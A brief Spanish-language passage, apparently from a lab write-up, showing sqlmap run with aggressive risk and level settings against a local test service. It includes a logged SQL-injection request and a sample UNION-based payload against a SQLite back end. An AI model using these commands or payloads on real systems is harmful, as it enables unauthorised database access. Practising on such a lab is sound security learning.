 ![script-ws-payloads](images/script-ws-payloads.png)

# Obtención

Ejecutamos el script, en nuestra terminal, escribimos el siguiente comando para ejecutar el `sqlmap`:

```
sqlmap -u "http://127.0.0.1:1014/?id=1" --batch --dbms SQLite --risk 3 --level 5 --flush-session
```

Si de esta manera, `sqlmap`, reporta que no pude realizar `sqli`, cambiaremos el **id** actual (`?id=0.0.2`) por `?id=1`.

En el output del script, todas las peticiones que realiza `sqlmap`: `127.0.0.1 - - [25/May/2023 15:14:06] "GET /?id=-1542%27%29%20OR%203852%3D3852%20AND%20%28%27tTZb%27%20LIKE%20%27tTZb HTTP/1.1" 200 -` Y en el output de de la terminal, entre todo, podremos ver el siguiente mensaje que la `ddbb` es vulnerable a SQLite:

```
the back-end DBMS is SQLite
back-end DBMS: SQLite
```

Y nos da un ejemplo de Payload:

```
id=1" UNION ALL SELECT NULL,NULL,CHAR(113,118,106,120,113)||CHAR(113,76,67,87,118,85,75,121,67,84,118,113,89,109,100,78,107,65,118,100,67,79,90,115,73,97,69,84,66,110,80,66,117,88,70,103,89,75,119,68)||CHAR(113,118,120,107,113),NULL-- Ejwv
```
